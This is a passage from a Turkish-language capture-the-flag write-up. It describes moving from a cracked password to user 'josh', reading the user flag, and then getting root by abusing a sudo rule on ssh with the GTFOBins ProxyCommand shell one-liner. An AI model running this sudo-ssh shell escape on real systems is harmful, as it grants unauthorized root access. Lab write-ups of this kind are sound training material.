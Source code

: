 John, parolayı 40 saniyeden kısa bir sürede buldu.

Bu parolanın hangi kullanıcıya ait olabileceğini öğrenmek için ev dizinindeki klasörleri listeledim:

```bash
ls /home
```

```text title="Output"
josh
```

Bu bilgiler ile `josh` kullanıcısına geçiş yaparak `app` --> `josh` yetki yükseltmesi gerçekleştirmiş oldum:

```bash
su josh
```

Yeni kullanıcı hesabına geçiş yaptıktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
find / -name *user.txt -type f -exec cat {} \; 2> /dev/null
```

## Root Flag

Mevcut yetkilerimi daha da yükseltebilmek için bazı araştırmalar gerçekleştirdim. İlk olarak aşağıdaki kontrolü sağladım:

```bash
sudo -l
```

```text title="Output" hl_lines="7"
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Mevcut kullanıcı ile `#!bash ssh` ikili dosyasını çalıştırabildiğimi fark ettim. GTFOBins sitesinde bulunan [zafiyet](https://gtfobins.github.io/gtfobins/ssh/#sudo) ile `root` kullanıcısı oldum:

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Kullanıcı bayrağını ele geçirirken kullandığım komuta benzer bir komut ile `root` bayrağını ele geçirebildim:

```bash
find / -name *root.txt -type f -exec cat {} \; 2> /dev/null
```
